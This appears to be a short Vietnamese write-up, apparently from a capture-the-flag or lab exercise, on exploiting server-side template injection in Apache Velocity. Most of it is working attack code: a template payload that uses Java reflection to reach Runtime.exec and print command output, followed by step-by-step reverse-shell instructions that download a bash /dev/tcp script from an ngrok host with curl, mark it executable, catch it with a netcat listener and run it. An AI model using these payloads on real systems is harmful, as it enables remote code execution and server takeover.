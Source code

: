 ```java=
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("ls /"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

Payload bên trên có thể output ra màn hình luôn

```java=
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("payload"))
#set($null=$process.waitFor() )
```

Payload này thì mình sẽ cố gắng tạo ra 1 revershell với các bước như sau
1. Mở ngrok trên máy mình. Giả sử có địa chỉ là tcp://0.tcp.ngrok.io:14337 -> localhost 1234
2. Tạo 1 thư mục trên máy và trong đó có 1 file sh chứa payload tạo revershell như sau
```
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.ngrok.io/14337 0>&1
```
3. Mở python server tại thư mục đó python -m http.server 1234
4. Sử dụng payload SSTI bên trên thay chữ "payload"
    - `curl -o /tmp/shell.sh http://0.tcp.ngrok.io:14337/shell.sh`
    - `chmod +x /tmp/shell.sh`
    - Sau đó phải mở netcat trên máy `nc -lvnp 1234`
    - `bash /tmp/shell.sh`

Đã thử trên máy local, bắt được shell nhưng không làm gì được (làm đúng quy trình mà)
